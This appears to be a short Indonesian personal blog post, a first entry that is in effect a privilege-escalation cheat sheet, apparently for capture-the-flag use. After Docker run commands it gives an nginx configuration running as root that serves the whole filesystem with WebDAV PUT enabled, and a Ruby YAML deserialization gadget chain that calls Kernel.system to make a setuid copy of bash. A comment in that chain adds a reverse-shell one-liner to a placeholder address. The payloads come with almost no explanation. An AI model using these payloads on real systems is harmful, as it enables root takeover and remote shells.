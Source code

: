 ```yaml
---
title: "The First"
description: Mungkin ini akan berguna (mungkin)
author: kizuko
date: 2023-12-23 22:00:00 +0700
categories: [random]
tags: [random]
image: 
    path: /assets/img/gojo-satoru.jpg
---
```


## Selamat Datang Cuy!!
ini post-an pertama saya, **K1zuko**. Setel ini dulu biar bacanya semakin santai 
{% include embed/audio.html src='/assets/au/Shinkai.mp3' type='mp3'%}

## Run Docker

```bash
sudo systemctl start docker
docker build .
docker images
docker run -p 1337:1337 {image}
```

## Privilege Escalation
### nginx.conf
```nginx
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
        server {
                listen 1338;
                root /;
                autoindex on;

                dav_methods PUT; # with dav_methods
        }
}
```
### Ruby
```ruby
---
- !ruby/object:Gem::Installer
    i: x
- !ruby/object:Gem::SpecFetcher
    i: y
- !ruby/object:Gem::Requirement
  requirements:
    !ruby/object:Gem::Package::TarReader
    io: &1 !ruby/object:Net::BufferedIO
      io: &1 !ruby/object:Gem::Package::TarReader::Entry
         read: 0
         header: "abc"
      debug_output: &1 !ruby/object:Net::WriteAdapter
         socket: &1 !ruby/object:Gem::RequestSet
             sets: !ruby/object:Net::WriteAdapter
                 socket: !ruby/module 'Kernel'
                 method_id: :system
             git_set: cp /bin/bash /tmp/kz; chmod 6777 /tmp/kz # "bash -c 'bash -i >& /dev/tcp/<local-ip>/<local-port> 0>&1'"
         method_id: :resolve
```
